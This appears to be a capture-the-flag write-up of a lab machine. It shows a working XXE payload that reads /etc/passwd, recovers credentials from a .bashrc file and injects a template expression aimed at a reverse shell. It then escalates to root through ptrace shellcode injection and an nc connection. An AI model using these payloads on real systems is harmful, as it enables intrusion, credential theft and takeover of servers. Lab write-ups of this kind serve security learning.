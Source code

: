 >> when i go to that subdomain i rendar on register page .then i see this request on burpsuite .
>> all data from this register form is going to server in xml form .
>> so we have the XXE attack.

# proxy the request on burpsuite.
>> i see the data in xml format so i try following payload:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE local [<!ENTITY root SYSTEM "FILE:///etc/passwd">]>
<root><name>test</name>
<tel>1456234455</tel>
<email>&root;</email>
<password>test</password>
</root>

>> the i fetch the .bashrc file using php filters and i found username and passwords in that file:

username="admin"
password="Saket!#$%@!!"

>> but i do not login using these cridentials . so change the username as saket and it works.
>> then i found using name parameter this website is vulnerable to server side templet injection(ssti)
>> payload : {% import os %}{{ os.system('reverse shell') }}
>> at last got reverse shell of saket user.

# ->Privilage Escalation Phase:

>> i check all the suid binaries but not found any binary that me privilages as a root.
>> then check capabilities .and found a python2.7 having capability set as a cap_sys_ptrace+ep.
>> we can use this capability for gaining root access by injecting a shell code into a process
>> running as a root.
>> by searching on google i find a shellcode injecting code .save this python code in a file name 
>> as inject.py

>> on victim machine .find a process running a root. in this victim box apache2 runnign as root.

# python2.7 inject.py <process id>
>> then check the port 5600 is open. and then finaly connect that port .
# nc <ip> 5600

>> got root access.
 
 
 ![image](https://user-images.githubusercontent.com/89301986/148648566-704653ee-7bbc-4377-b833-63ffd24997cc.png)

